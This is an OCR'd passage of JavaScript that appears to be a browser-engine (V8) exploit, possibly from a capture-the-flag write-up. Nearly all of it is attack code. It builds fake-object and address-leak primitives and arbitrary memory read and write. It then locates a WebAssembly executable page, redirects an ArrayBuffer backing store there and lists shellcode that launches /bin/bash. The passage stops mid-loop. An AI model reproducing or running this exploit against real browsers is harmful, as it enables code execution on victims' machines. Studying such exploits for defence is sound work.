 ```js
    aux_obj_arr[0] = obj;
    return ftoi(aux_arr[0], 32)
}

function fakeobj(addr) {
    let fake;
    aux_arr = aux_float_arr.slice(aux_float_arr);
    aux_arr[0] = itof(addr, 32);
    aux_arr[3] = itof((ftoi(aux_arr[3], 64) & 0xffffffff00000000n) + obj_arr_map, 64);
    fake = aux_arr[0];
    return fake;
}

var rw_helper = [itof(flt_arr_map, 64), 1.1, 2.2, 3.3];
var rw_helper_addr = addrof(rw_helper) & 0xffffffffn;

console.log("[+] Controlled RW helper address: 0x" + rw_helper_addr.toString(16));

function arb_read(addr) {
    let fake = fakeobj(rw_helper_addr - 0x20n);
    rw_helper[1] = itof((0x8n << 32n) + addr - 0x8n, 64);
    return ftoi(fake[0], 64);
}

function arb_write(addr, value) {
    let fake = fakeobj(rw_helper_addr - 0x20n);
    rw_helper[1] = itof((0x8n << 32n) + addr - 0x8n, 64);
    fake[0] = itof(value, 64);
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,
                               130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,
                               128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,
                               128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,
                               0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,0,11]);
var wasm_module = new WebAssembly.Module(wasmCode);
var wasm_instance = new WebAssembly.Instance(wasm_module);
var pwn = wasm_instance.exports.main;

var wasm_instance_addr = addrof(wasm_instance) & 0xffffffffn;
var rwx = arb_read(wasm_instance_addr + 0x68n);

console.log("[+] Wasm instance address: 0x" + wasm_instance_addr.toString(16));
console.log("[+] RWX section address: 0x" + rwx.toString(16));


var arr_buf = new ArrayBuffer(0x100);
var dataview = new DataView(arr_buf);

var arr_buf_addr = addrof(arr_buf) & 0xffffffffn;;
var back_store_addr = arb_read(arr_buf_addr + 0x14n);

console.log("[+] ArrayBuffer address: 0x" + arr_buf_addr.toString(16));
console.log("[+] Back store pointer: 0x" + back_store_addr.toString(16));

arb_write(arr_buf_addr + 0x14n, rwx);

var shellcode = [0x6a, 0x68, 0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73, 0x50, 0x48, 0x89, 0xe7, 0x31, 0xd2, 0x31, 0xf6, 0x6a, 0x3b, 0x58, 0x0f, 0x05]



for (let i = 0; i < shellcode.length; i++) {
```